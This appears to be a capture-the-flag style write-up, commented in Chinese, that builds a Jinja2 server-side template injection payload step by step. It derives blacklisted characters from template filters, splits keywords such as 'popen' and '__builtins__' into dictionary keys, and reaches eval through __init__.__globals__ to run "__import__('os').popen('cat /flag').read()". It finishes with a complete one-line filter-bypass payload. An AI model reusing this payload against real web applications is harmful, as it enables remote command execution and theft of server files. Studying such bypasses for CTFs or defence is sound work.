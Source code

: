 {% set c = dict(c=aa)|reverse|first %}    \# 字符 c
{% set bfh = self|string|urlencode|first %}    \# 百分号 %
{% set bfhc = bfh~c %}    \# 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    \# 使用%c构造斜杠 /
{% set yin = bfhc%((three~nine)|int) %}    \# 使用%c构造引号 '
{% set xhx = bfhc%((nine~five)|int) %}    \# 使用%c构造下划线 _
{% set right = bfhc%((four~one)|int) %}    \# 使用%c构造右括号 )
{% set left = bfhc%((four~zero)|int) %}    \# 使用%c构造左括号 (

{% set but = dict(buil=aa,tins=dd)|join %}    \# builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    \# import
{% set pon = dict(po=aa,pen=dd)|join %}    \# popen
{% set so = dict(o=aa,s=dd)|join %}    \# os
{% set ca = dict(ca=aa,t=dd)|join %}    \# cat
{% set flg = dict(fl=aa,ag=dd)|join %}    \# flag
{% set ev = dict(ev=aa,al=dd)|join %}    \# eval
{% set red = dict(re=aa,ad=dd)|join %}    \# read
{% set bul = xhx~xhx~but~xhx~xhx %}    \# \_\_builtins\_\_

{% set ini = dict(ini=aa,t=bb)|join %}    \# init
{% set glo = dict(glo=aa,bals=bb)|join %}    \# globals
{% set itm = dict(ite=aa,ms=bb)|join %}    \# items

\# 将上面构造的字符或字符串拼接起来构造出 \_\_import\_\_('os').popen('cat /flag').read(): 
{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}

\# 然后将上面构造的各种变量添加到SSTI万能payload里面就行了: 
{% for f,v in (whoami|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}    \# globals
    {% if f == bul %} 
        {% for a,b in (v|attr(itm))() %}    \# builtins
            {% if a == ev %}    \# eval
                {{b(pld)}}    \# eval("\_\_import\_\_('os').popen('cat /flag').read()")
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}

\# 最后的payload如下:
{% set zero = (self|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set three = five-one-one %}{% set nine = (two*two*two*two-five-one-one) %}{% set seven = (zero-one-one-five)|abs %}{% set space = self|string|min %}{% set point = self|float|string|min %}{% set c = dict(c=aa)|reverse|first %}{% set bfh = self|string|urlencode|first %}{% set bfhc = bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set yin = bfhc%((three~nine)|int) %}{% set xhx = bfhc%((nine~five)|int) %}{% set right = bfhc%((four~one)|int) %}{% set left = bfhc%((four~zero)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set so = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx~xhx~but~xhx~xhx %}{% set ini = dict(ini=aa,t=bb)|join %}{% set glo = dict(glo=aa,bals=bb)|join %}{% set itm = dict(ite=aa,ms=bb)|join %}{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in (self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}{% if f == bul %}{% for a,b in (v|attr(itm))() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}
